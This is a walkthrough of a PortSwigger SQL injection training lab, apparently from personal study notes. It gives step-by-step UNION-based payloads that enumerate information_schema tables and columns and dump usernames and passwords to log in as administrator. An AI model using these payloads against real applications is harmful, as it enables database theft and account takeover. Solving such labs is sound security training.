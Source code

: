 [Source](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
## Task
This lab contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables.
The application has a login function, and the database contains a table that stores usernames and passwords. We need to determine the name of this table and the columns it contains, and then extract data from the table to get the username and password of all users.

Log in as the admin user to complete the lab.
## Solution
Go to the site
![[Pasted image 20241202191207.png]]
Select any category, intercept the request in `Burp Suite` and send it to `Repeater`
![[Pasted image 20241202191341.png]]
Find out how many columns and which column is displayed on the page
```SQL
'+UNION+SELECT+NULL,NULL--
```
Only 2 columns and they are both displayed
```SQL
'+UNION+SELECT+'1','2'--
```
![[Pasted image 20241202191627.png]]
Now we will display all the names tables
```SQL
'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```
![[Pasted image 20241202192735.png]]
Next, we will output what columns are in the table `users_pbivkd`, which we found in the previous step
```SQL
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_pbivkd'--
```
![[Pasted image 20241202193930.png]]
We found the columns `username_lfsygz` and `password_tqbtwo`. Now we will output their contents one by one.
```SQL
'+UNION+SELECT+username_lfsygz,NULL+FROM+users_pbivkd--
```
![[Pasted image 20241202194117.png]]
Found `administrator`. He is the third in order. Now let's find his password
```SQL
'+UNION+SELECT+password_tqbtwo,NULL+FROM+users_pbivkd--
```
![[Pasted image 20241202194216.png]]
Or we can simply output everything at once
```SQL
'+UNION+SELECT+username_lfsygz,password_tqbtwo+FROM+users_pbivkd--
```
All that remains is to log in as administrator and that's it.